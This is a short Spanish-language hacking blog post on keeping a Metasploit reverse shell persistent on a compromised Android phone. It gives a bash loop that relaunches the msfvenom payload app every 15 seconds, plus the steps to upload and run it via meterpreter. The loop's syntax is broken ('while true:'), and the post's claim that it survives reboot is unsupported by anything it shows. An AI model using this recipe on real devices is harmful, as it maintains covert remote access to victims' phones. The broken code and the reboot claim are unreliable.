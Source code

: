 ```yaml
---
title: Android - Persistencia en sistemas móviles (reverse shell)
date: 2019-08-14 09:00:00 
categories: [HACKING]
tags: [hacking, android, móviles]
description: Cuando se realiza un Pentest, una de las cosas que nos atañen es el mantener la persistencia en los sistemas vulnerados y mucho más si estos son móviles.
image: /assets/11/preview1.png
---
```


_DISCLAIMER: El contenido de este artículo tiene como propósito compartir información para fines educativos. No me hago responsable de cualquier acto ilícito realizado con la información siguiente. No vulneres sistemas ajenos a los tuyos. El conocimiento es libre._

Cuando se realiza un Pentest, una de las cosas que nos atañen es el mantener la persistencia en los sistemas vulnerados y mucho más si estos son móviles.

Es por ello que hoy veremos un pequeño script ".sh" que nos permitirá mantener conexión con el dispositivo remoto, y que exista una persistencia (reverse shell).

Una vez vulnerada una terminal de Android, lo único que queda es correr un archivo en BASH que mande llamar de manera recursiva a la aplicación maliciosa. Se toma como ejemplo una shell creada con msfvenom (de Metasploit).

El script:

    while true:
        do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MainActivity
        sleep 15
    done

Hay que movernos con la shell interna del sistema vulnerado hasta la ruta:

    /data/data/com.metasploit.stage/files

Para luego proceder a subir la recursividad (comando upload desde meterpreter) y correrla con el comando:
   
    sh recur.sh

La recursividad funciona aún con el reinicio del sistema.

__Exploiting vulnerabilities, creating new ways through__
